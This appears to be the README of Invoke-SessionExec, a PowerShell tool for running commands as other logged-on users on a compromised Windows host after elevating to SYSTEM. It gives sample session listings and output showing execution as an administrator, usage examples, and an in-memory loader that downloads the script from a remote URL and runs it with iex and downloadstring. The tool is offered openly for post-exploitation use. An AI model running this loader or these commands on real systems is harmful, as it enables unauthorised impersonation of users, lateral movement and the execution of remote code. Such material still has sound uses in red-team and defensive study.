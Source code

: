 # Invoke-SessionExec

Invoke-SessionExec is a PowerShell port of Leo4j's SessionExec. https://github.com/Leo4j/SessionExec

Invoke-SessionExec allows you to execute commands in the context of others users from their logon sessions.

For example running as the user "truth" on a compromised host we can see logon sessions for the users administrator and arbiter.

```
C:\Users\truth>quser
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>truth                 console             1  Active      none   23/07/2024 19:43
 administrator                             2  Disc        20:53  23/07/2024 18:02
 arbiter                                   3  Disc        20:52  23/07/2024 18:03
```

After elevating to SYSTEM and executing Invoke-SessionExec with  ```Invoke-SessionExec -SessionID All -Command "whoami"```  we get the following command output from each users with a logon session on the system:

```
[+] Invoke Command as truth under Session ID:1
security\truth

[+] Invoke Command as administrator under Session ID:2
security\administrator

[+] Invoke Command as arbiter under Session ID:3
security\arbiter
```

# Load into memory

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/The-Viper-One/Invoke-SessionExec/main/Invoke-SessionExec.ps1')
```

# Usage
```powershell
# Execute as user in Session 1
Invoke-SessionExec -SessionID 1 -Command "whomai /all"

# Execute as all users with logon sessions
Invoke-SessionExec -SessionID All -Command "whoami /all"
```

